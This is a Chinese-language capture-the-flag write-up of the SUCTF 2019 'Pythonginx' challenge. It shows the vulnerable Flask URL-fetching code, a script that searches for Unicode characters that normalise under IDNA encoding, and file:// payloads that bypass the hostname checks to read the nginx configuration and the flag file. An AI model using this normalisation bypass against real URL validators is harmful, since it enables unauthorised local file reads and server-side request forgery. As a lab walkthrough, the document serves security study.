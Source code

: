 * # SUCTF 2019

* ## 0x01 Pythonginx

  关键词：nginx架构，编码与解码，python

进入界面，读取源码：

```
@app.route('/getUrl', methods=['GET', 'POST']) 
def getUrl(): 
    url = request.args.get("url") 
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111" 
    parts = list(urlsplit(url))
    host = parts[1] 
    if host == 'suctf.cc': 
        return "我扌 your problem? 222 " + host
    newhost = [] 
    for h in host.split('.'): 
        newhost.append(h.encode('idna').decode('utf-8')) 
        parts[1] = '.'.join(newhost) 
        #去掉 url 中的空格 
    finalUrl = urlunsplit(parts).split(' ')[0] 
    host = parse.urlparse(finalUrl).hostname 
    if host == 'suctf.cc': 
        return urllib.request.urlopen(finalUrl).read() 
    else: 
        return "我扌 your problem? 333"
```

源码基本逻辑为：

* 第一次主机地址不能为suctf.cc
* 第二次主机地址不能为suctf.cc
* 最后一次主机地址（经过idna编码和utf-8解码后）为suctf.cc后打开网址对应的网站并读取源码

故我们可以采用这个逻辑去进行编码，编码脚本如下：

```
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass
```

人工寻找能够在编码解码后替换网址的字符完成绕过

第一步payload：

```
file://suctf.cＣ
```

进入nginx文件读取环节，需要掌握基础知识如下：

* Nginx 重要文件目录

  配置文件存放目录：/etc/nginx
  主要配置文件：/etc/nginx/conf/nginx.conf
  管理脚本：/usr/lib64/systemd/system/nginx.service
  模块：/usr/lisb64/nginx/modules
  应用程序：/usr/sbin/nginx
  程序默认存放位置：/usr/share/nginx/html
  日志默认存放位置：/var/log/nginx
  Nginx配置文件：/usr/local/nginx/conf/nginx.conf
  
* 最终在nginx配置文件中找到flag位置

```
file://suctf.cＣ/usr/local/nginx/conf/nginx.conf
```

![image-20210324192201511](C:\Gitbook\Import\heart1ess_s_ctf\assets\su1.png)

最终payload：

```
file://suctf.cＣ/usr/fffffflag
```

